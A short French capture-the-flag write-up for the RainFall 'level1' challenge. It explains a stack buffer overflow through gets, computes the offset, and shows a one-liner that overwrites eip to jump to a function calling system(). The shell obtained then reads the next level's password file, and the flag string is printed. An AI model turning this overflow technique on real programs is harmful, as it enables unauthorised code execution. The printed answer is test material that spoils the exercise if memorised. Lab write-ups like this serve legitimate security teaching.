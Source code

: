 Nous remarquons que le programme utilise gets, une fonction vulnérable aux overflow. Nous calculons la taille du buffer.

```bash
$esp = 0xbffff6d8
0xbffff6d8 - ((0xbffff6d8 & 0xfffffff0) - 80 + 16) = 72
```
On overflow gets et l'on ajoute +4 à 72 afin de modifier le registre eip à la fonction "run", qui fait un call à system.

```bash
level1@RainFall:~$ (python -c 'print "a" * 76 + "\x44\x84\x04\x08"'; cat) | ./level1
Good... Wait what?
cat /home/user/level2/.pass
53a4a712787f40ec66c3c26c1f4b164dcad5552b038bb0addd69bf5bf6fa8e77
```

